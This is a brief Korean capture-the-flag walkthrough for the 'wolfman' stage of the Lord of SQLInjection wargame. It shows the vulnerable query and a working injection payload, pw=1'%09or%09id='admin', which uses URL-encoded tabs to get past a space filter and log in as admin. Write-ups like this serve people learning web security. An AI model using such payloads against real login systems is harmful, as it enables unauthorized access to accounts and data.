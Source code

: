 Lord of SQLInjection 
wolfman 문제 [5단계]
쿼리문 : select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'
3번 문제와 유사한 문제이다.
pw에 임의의 값을 넣고 or id='admin' 을 쿼리문에
입력하면 된다. 3번 문제와 다르게 공백도 필터링 되기 때문에 tab 의 url인코딩 값을 이용해서 공백을 대신한다
tab : %09
pw=1'%09or%09id='admin'